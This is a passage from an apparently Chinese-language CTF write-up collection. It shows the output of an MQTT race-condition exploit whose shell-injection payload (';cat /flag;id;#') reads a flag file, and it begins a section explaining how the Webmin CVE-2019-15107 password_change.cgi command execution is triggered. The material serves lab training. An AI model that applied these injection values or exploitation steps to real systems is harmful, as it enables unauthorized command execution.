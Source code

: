 远程命令记录为 timeout 100 python3 solve\_mqtt.py env.xj.edisec.net 30953。响应摘录：

\begin{verbatim}
[+] 泄漏 VIN   = b';cat /flag;id;#'
[+] 推导 token = 054060a8  (hash: h=h*31+(signed char)c)
[>] 步骤1 (合法 set_vin, 通过校验后 sleep 2s): {"auth": "054060a8", "cmd": "set_vin", "arg": "1234567890"}
[>] 步骤2 (竞争覆写 arg 全局): {"auth": "054060a8", "cmd": "unknown_command", "arg": ";cat /flag;id;#"}
[<] diag/resp : b'ret: FLAG{XJ_MrpqTJhm63bmZ87L}uid=1001(ctf) gid=1001(ctf) groups=100 -n ;cat /flag;id;#>/mnt/VIN;cat /mnt/VIN'
[!] 命中 flag: FLAG{XJ_MrpqTJhm63bmZ87L}
[+] EXPLOIT SUCCESS
\end{verbatim}

本地假 broker 另以 flag\{local\_test\} 验证竞态控制。本题没有持久化的 solve\_mqtt.py 源码，但远程和本地终端原始输出仍在 figures/raw/fig-pwn-27-mqtt-triage.txt、fig-pwn-28-mqtt-local.txt、fig-pwn-29-mqtt-remote.txt；保留远程返回的大写 FLAG。

\chapter{渗透与服务安全}\label{ux6e17ux900fux4e0eux670dux52a1ux5b89ux5168}

\begin{quote}
\textbf{本类知识点：} 渗透题需要把服务版本、配置、访问权限和漏洞前置条件对应起来，并用可观察的响应确认每一步。
\end{quote}

\section{webmin未授权远程代码执行漏洞（ID \#428）}\label{webminux672aux6388ux6743ux8fdcux7a0bux4ee3ux7801ux6267ux884cux6f0fux6d1eid-428}

\textbf{题目信息：} 玄机 ID \#428；类型 渗透；难度 入门。

\begin{quote}
\textbf{零基础知识点：} Webmin 漏洞利用依赖具体版本、配置和表单错误分支。先用无害标记验证命令执行，再读取目标文件；HTTP 200 本身不等于利用成功。
\end{quote}

HTTP banner 是 MiniServ/1.920，页面指示 Webmin 1.920 on Ubuntu Linux 24.04.3。

CVE-2019-15107 的 password\_change.cgi 在受影响构建的错误密码分支执行表单内容。Rapid7 官方 Metasploit 模块说明受影响版本 1.890--1.920；对 1.900--1.920，expired-password changing 必须启用；模块会将命令同时放入 expired 和 old，并把 new1/new2 设成相同 token。早期仅把命令放在 old 的失败探测因此没有触发。

